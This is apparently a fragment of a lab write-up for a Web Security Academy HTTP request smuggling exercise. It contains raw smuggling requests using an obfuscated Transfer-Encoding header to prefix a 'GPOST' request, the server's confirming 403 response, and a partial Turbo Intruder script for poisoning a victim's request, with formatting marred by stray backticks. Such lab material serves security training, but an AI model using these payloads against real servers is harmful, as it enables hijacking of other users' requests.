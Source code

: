 3
x=y
0

---
>`POST / HTTP/1.1
>`Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
>`Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
>`Connection: keep-alive
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`tRANSFER-ENCODING: chunked
>
>`3
>`x=y
>`5c
>`GPOST / HTTP/1.1
>`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15
>
>`x=1
>`0

POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0

---
##### Response: 

HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 27

"Unrecognized method GPOST"

---
##### Turbo Intruder code:

>`import re
>
`def queueRequests(target, wordlists):
  `  engine = RequestEngine(endpoint=target.endpoint,
>`...`
>  
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GPOST / HTTP/1.1
`Content-Type: application/x-www-form-urlencoded
`Content-Length: 15
>
`x=1'''
>
